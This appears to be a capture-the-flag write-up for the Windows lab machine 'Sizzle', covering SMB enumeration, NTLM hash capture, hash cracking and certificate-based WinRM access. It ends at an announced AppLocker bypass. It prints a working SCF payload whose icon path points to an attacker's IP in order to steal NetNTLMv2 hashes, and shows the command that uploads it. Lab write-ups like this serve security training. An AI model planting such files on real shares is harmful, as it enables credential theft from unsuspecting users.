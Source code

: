 

#### Background


**Sizzler** is a a really tough windows box. 

#### Enumeration

To begin the enumeration process, a **TCP/UDP** port scan was run against the target using nmap. The purpose of scan is to quickly determine which ports are open and which services are running. 

###### OS Information
Based on the system we know it is running some version of windows server

###### Open Ports:
In addition to usual ports, 22 and 80 UDP port 161 is open. UDP 161 is the standard SNMP port.There is also a filtered ftp port showing.

![source-01](/img/sizzle5.PNG){: .align-left}

#### Notes:
- There are a lot of ports open and by looking at the open ports we know it is most likely a windows active directory setup.

#### HTTP - TCP 80
Gobuster did find an interesting directory **certenroll**  which is microsoft certificate authority enrolement service.
```python

/aspnet_client (Status: 301)
/certenroll (Status: 301)
/Images (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
```
But visiting that directory show us 403 forbidden

![source-01](/img/sizzle1.PNG){: .align-left}



#### SMB - TCP 445
Using SMB client i was able to get bunch of shares.

```python

sizzle smbclient -N -L \\\\sizzle.htb.local

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        CertEnroll      Disk      Active Directory Certificate Services share
        Department Shares Disk
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share
        Operations      Disk
        SYSVOL          Disk      Logon server share
SMB1 disabled -- no workgroup available
```
Notes:
- From the shares i noticed the CertEnroll which is used by Microsoft Certificate Authority. From my years of experience with managing windows Active directory environments /certsrv 

Visting that directory pop us for a username and password

![source-01](/img/sizzle2.PNG){: .align-left}

So we need a username and password to access /certsrv, lets enumerate the SMB shares further.

There is nothing interesting in department shares and most of the folders are empty. 

![source-01](/img/sizzle4.PNG){: .align-left}

From all the folders we have Full access to  /Users folder.

![source-01](/img/sizzle7.PNG){: .align-left}

#### SMB Share – SCF File Attacks

When we have read/write access to a SMB file share, we can performa a SCF file attack to steal NetNTLMv2 hash.
> 

After uploading the malicious SCF file, we wait for responder 

![source-01](/img/sizzle8.PNG){: .align-left}

And we got user Amanda's NetNTLM Hash

#### Hash Cracking

Feed  the captured hash to hashcat to crack it.

![source-01](/img/sizzle9.PNG){: .align-left}

And we got the password.

#### Certenrol Access
Using the credential for amanda we can login to /cersrv which is Microsoft certificate certificate enrol service.

![source-01](/img/Screenshot_2020-06-21_16-25-23.png){: .align-left}

Great now we can request certificates, why we need a certificate anyway ?. From our initial nmap scans we know winrm port is open which is https, to use this service we need to have a valid certificate.

What is WinRM ?
> Windows Remote Management, or WinRM, is a Windows-native built-in remote management protocol in its simplest form that uses Simple Object Access Protocol to interface with remote computers and servers, as well as Operating Systems and applications.

#### Intial Acess - Compromising User

Now we can use the cersrv portal and request for Certificate Signing Request (CSR).

#### SCF - Attack
SCF payload:

```python

➜  sizzle cat steal.scf
[Shell]
command=2
IconFile=\\10.10.14.36\share\pwn.ico
[Taskbar]
Command=ToggleDesktop
```
upload the SCF file to SMB share
```python

smb: \Users\public\> put steal.scf
putting file steal.scf as \Users\public\steal.scf (0.1 kb/s) (average 0.1 kb/s)
```

#### Certificate Signing Request (CSR)
We can use OpenSSL to generate CSR file 

![source-01](/img/Screenshot_2020-06-21_16-47-07.png){: .align-left}

On the certificate web enrollment page copy/paste the content of the CSR file.

![source-01](/img/Screenshot_2020-06-21_16-55-08.png){: .align-left}

After generating and signing the cerificate for amanda SSL authentication, we need to set some variables in WinRM script. 

![source-01](/img/Screenshot_2020.png){: .align-left}


#### Initial Access:
Now we can use WinRM script to Loging as amanda.

![source-01](/img/Screenshot_2020-58.png){: .align-left}

User.txt file is not in amanda folders, there was another user in the system. So we might have to exploit this user to get to administrator.

![source-01](/img/Screenshot_2020-06-22.png){: .align-left}


#### System Enumeration:
Try to upload and run bloodhound to the syste, but it was blocked by powershell constrained deligation, on top of that AppLocker is in place and its blocking everything i throw it.

> PowerShell Constrained Language is a language mode of PowerShell designed to support day-to-day administrative tasks, yet restrict access to sensitive language elements that can be used to invoke arbitrary Windows APIs.

#### PowerShell CL and AppLocker Bypass
Lets bypass powershell constrained language mode and AppLocker to run our tools.












